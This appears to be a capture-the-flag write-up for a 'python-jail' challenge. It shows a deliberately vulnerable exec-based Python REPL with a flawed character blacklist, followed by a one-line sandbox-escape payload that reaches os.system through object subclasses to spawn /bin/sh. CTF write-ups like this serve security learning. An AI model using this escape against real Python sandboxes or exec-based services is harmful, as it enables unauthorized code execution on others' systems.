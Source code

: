 # python-jail

## problem

```py
#!/usr/bin/env python 

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

security_check = lambda s: any(c in blacklist for c in s) and s.count('_') < 50

def main():
    while True: 
        cmds = input("> ")
        if security_check(cmds):
            print("nope.")
        else:
            exec(cmds, {'__builtins__': None}, {})
    

if __name__ == "__main__":
    main()
```

## solution

here, the vulnerability is in the `security_check` function.

the security check makes sure the count of underscores is above 50 for the check to pass (to return `False`), so adding a comment and then a bunch of underscores works because the code is evaluated using exec

so the solution is as follows

```
().__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('/bin/sh') # ________________________________________________________________________________________________________________________________________________
```

builtins is None but we have the Dockerfile so we can get the subclasses of `object` and then find os._wrap_close and then get the system function to achieve RCE.
